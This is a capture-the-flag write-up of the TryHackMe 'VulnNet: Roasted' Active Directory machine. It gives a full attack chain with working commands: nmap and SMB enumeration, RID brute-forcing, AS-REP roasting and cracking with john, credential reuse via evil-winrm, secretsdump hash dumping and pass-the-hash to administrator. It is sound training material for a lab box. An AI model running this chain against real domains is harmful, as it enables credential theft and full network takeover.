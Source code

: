 # VulnNet: Roasted

Link to room: https://tryhackme.com/room/vulnnetroasted

### This is a Windows activie directory machine

Let's start with an nmap scan:

```
# Nmap 7.91 scan initiated Sun May 16 16:34:12 2021 as: nmap -p- -v -sC -sV -Pn -oN nmap-all-ports vulnet.thm
Nmap scan report for vulnet.thm (10.10.123.68)
Host is up (0.23s latency).
Not shown: 65515 filtered ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-05-16 21:04:34Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49665/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         Microsoft Windows RPC
49683/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
49707/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: WIN-2BO8M1OE1M1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-05-16T21:05:40
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May 16 17:06:24 2021 -- 1 IP address (1 host up) scanned in 1932.04 seconds
```

Based on the opened ports like 53(DNS) and 88(kerberos), we can assume this is a windows active directory machine

## SMB Enum

we can enumerate shares anonymously providing a null password using smbmap
```
╭── /opt/share/tryhackme/vulnet  master ✘✘✘ ✭  
╰────▶ smbmap -H vulnet.thm -u guest -p ''
[+] IP: vulnet.thm:445  Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        SYSVOL                                                  NO ACCESS       Logon server share 
        VulnNet-Business-Anonymous                              READ ONLY       VulnNet Business Sharing
        VulnNet-Enterprise-Anonymous                            READ ONLY       VulnNet Enterprise Sharing
```

There are read-only access to three shares (IPC$, VulnNet-Business-Anonymous, and VulnNet-Enterprise-Anonymous)
The first share out of the 3 hints us of the possibility to do anonymous user enumeration. We will come to that later. so let's access the last 2 shares and see what contents they have

```
╭── /opt/share/tryhackme/vulnet/smb_loot  master ✘✘✘
╰────▶ smbclient //vulnet.thm/VulnNet-Business-Anonymous
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Mar 12 21:46:40 2021
  ..                                  D        0  Fri Mar 12 21:46:40 2021
  Business-Manager.txt                A      758  Thu Mar 11 20:24:34 2021
  Business-Sections.txt               A      654  Thu Mar 11 20:24:34 2021
  Business-Tracking.txt               A      471  Thu Mar 11 20:24:34 2021


╭── /opt/share/tryhackme/vulnet/smb_loot  master ✘✘✘ ✭  
╰────▶ smbclient //vulnet.thm/VulnNet-Enterprise-Anonymous                           
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Mar 12 21:46:40 2021
  ..                                  D        0  Fri Mar 12 21:46:40 2021
  Enterprise-Operations.txt           A      467  Thu Mar 11 20:24:34 2021
  Enterprise-Safety.txt               A      503  Thu Mar 11 20:24:34 2021
  Enterprise-Sync.txt                 A      496  Thu Mar 11 20:24:34 2021
```

Let's download all the contents onto our local machine
```
smb: \> mget *
```

We get potential usernames and other info from the downloaded files from smb. so let's build our username list. Spoiler alert!!, the usernames in the files were generic and didn't match with those create on the machine

Time to find a way to enumerate usernames on the box. i will be using rid-brute from crackmapexec
```
crackmapexec smb vulnet.thm -u robot -p '' --rid-brute | grep  SidTypeUser
```
Since this is anonymous login, you can replace username robot with whatever you like. I used robot because i amm one -:)

![image](https://user-images.githubusercontent.com/68066436/118685539-3038aa80-b7d1-11eb-91e9-572fcd48794a.png)

Extract the usernames with rid greater than 1000 into a username file. I named mine users.txt with below content

```
enterprise-core-vn
a-whitehat
t-skid
j-goldenhand
j-leet
```
kerberoasting with the username file returns a hash for t-skid

```
python3 GetNPUsers.py -dc-ip 10.10.176.144 -usersfile users.txt vulnnet-rst.local/
```
![image](https://user-images.githubusercontent.com/68066436/118688670-41cf8180-b7d4-11eb-9917-96222176f67f.png)

Put whole hash (from $krb to end of hash) in a file and crack with john-the-ripper
```
john --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt kerberoasting-hash
```
![image](https://user-images.githubusercontent.com/68066436/118689287-d1753000-b7d4-11eb-8b7f-869cfe676122.png)

Creds for t-skid
```
user: t-skid
pass: <redacted>
```

Try to access smb again with new creds to see if we get more access to some shares
```
smbmap -H vulnet.thm -u t-skid -p '<redacted>'
```
![image](https://user-images.githubusercontent.com/68066436/118689875-77c13580-b7d5-11eb-88a7-c99bc26d771f.png)
Notice t-skid has read access to NETLOGON and SYSVOL shares which we did have with the anonymous logins

Let's access NETLOGON share with smbclient and see what we've got in there
```
smbclient //vulnet.thm/NETLOGON -U t-skid
```
![image](https://user-images.githubusercontent.com/68066436/118690902-82c89580-b7d6-11eb-95f2-9fb1715a6c6b.png)

We get a new username and password after downloading and reading the content of ResetPassword.vbs
![image](https://user-images.githubusercontent.com/68066436/118691117-bf948c80-b7d6-11eb-9360-202d1f66c064.png)

Creds for a-whitehat
```
user: a-whitehat
pass: <redacted>
```

Pass a-whitehat's creds into evil-winrm to get the initial foothold into the machine
```
evil-winrm -i vulnet.thm -u a-whitehat -p <redacted>
```
![image](https://user-images.githubusercontent.com/68066436/118693125-c45a4000-b7d8-11eb-9b0b-cf9abceba4aa.png)


## Privilege Escalation

Checked groups and realised user a-whitehat belongs to domain admins group, this will enable us dump hashes from SAM database using secretsdump.py from impacket

![image](https://user-images.githubusercontent.com/68066436/118693532-21ee8c80-b7d9-11eb-9b2d-195be8421d32.png)

Let's dump the hashes with secretsdump
```
python3 secretsdump.py -just-dc a-whitehat:<redacted password>@vulnnet-rst.local
```
![image](https://user-images.githubusercontent.com/68066436/118694206-d2f52700-b7d9-11eb-9b00-698568e0e87f.png)

What do we do now that we have the administrator's hashes? Erhmmm, let's pass-the-hash using evil-winrm
```
evil-winrm -i vulnet.thm -u administrator -H <redacted NTLM hash of administrator>
```
![image](https://user-images.githubusercontent.com/68066436/118695296-084e4480-b7db-11eb-8194-300f527f336b.png)

We have successfully escalated our privilege to administrator!!!!!


## Flags
Time to grab the flags

### User Flag:
Navigate to C:\users\enterprise-core-vn\Desktop\user.txt
![image](https://user-images.githubusercontent.com/68066436/118696979-d63de200-b7dc-11eb-8d86-a6da70a933aa.png)

### System Flag:
Navigate to C:\Users\Administrator\Desktop\system.txt
![image](https://user-images.githubusercontent.com/68066436/118696998-db029600-b7dc-11eb-8f7d-e0673173e282.png)




## This is the end of my write-up, hope you enjoyed reading....



